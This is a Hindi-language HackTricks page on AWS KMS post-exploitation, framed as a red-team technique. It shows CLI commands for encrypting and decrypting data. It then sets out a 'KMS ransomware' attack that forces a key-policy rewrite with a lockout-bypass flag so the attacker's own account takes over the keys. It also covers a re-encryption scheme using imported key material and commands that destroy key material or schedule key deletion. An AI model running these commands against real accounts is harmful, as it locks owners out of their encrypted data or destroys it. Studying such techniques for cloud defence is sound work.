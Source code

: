 # AWS - KMS पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## KMS

अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

* एक **सममित** का उपयोग
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* एक **विषमाकृत** कुंजी का उपयोग:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS रैंसमवेयर

एक हमलावर जिसके पास KMS पर विशेषाधिकार हैं, वह कुंजियों की KMS नीति को संशोधित कर सकता है और **अपने खाते को उनके ऊपर पहुंच दे**, जिससे वास्तविक खाते को दी गई पहुंच हटा दी जाए।

फिर, वास्तविक खाते के उपयोगकर्ता उन कुंजियों से एन्क्रिप्ट की गई किसी भी सेवा की कोई भी जानकारी तक पहुंच नहीं पा सकेंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैंसमवेयर बन जाए।

{% hint style="warning" %}
ध्यान दें कि **AWS संचालित कुंजियाँ** इस हमले से प्रभावित नहीं होतीं, केवल **ग्राहक संचालित कुंजियाँ**।

इस हमले को केवल CLI से ही संभव बनाने के लिए **`--bypass-policy-lockout-safety-check`** पैरामीटर का उपयोग करने की आवश्यकता है (इस विकल्प की कमी वेब कंसोल में इस हमले को केवल CLI से ही संभव बनाती है)।
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाहरी खाते को पहुंच देते हैं, और फिर इस बाहरी खाते से आप पुन: पहुंच देने की नई नीति सेट करने का प्रयास करते हैं **मूल खाते को पहुंच देने के लिए, आप योग्य नहीं होंगे**।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### सामान्य KMS रैंसमवेयर

#### ग्लोबल KMS रैंसमवेयर

एक और तरीका है ग्लोबल KMS रैंसमवेयर का कार्यान्वयन करने के लिए, जिसमें निम्नलिखित चरण शामिल हो सकते हैं:

* हमलावर द्वारा आयात किए गए **कुंजी सामग्री के साथ एक नई कुंजी बनाएं**
* पिछले संस्करण से एन्क्रिप्ट किए गए पुराने डेटा को नए संस्करण के साथ **पुनः एन्क्रिप्ट करें**
* **KMS कुंजी को हटाएं**
* अब केवल हमलावर, जिसके पास मूल कुंजी सामग्री है, एन्क्रिप्ट किए गए डेटा को डिक्रिप्ट कर सकता है

### कुंजी हटाएं
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
ध्यान दें कि AWS अब **क्रॉस अकाउंट से पिछले कार्रवाई को करने से रोकता है:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

अन्य तरीके HackTricks का समर्थन करने के लिए:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
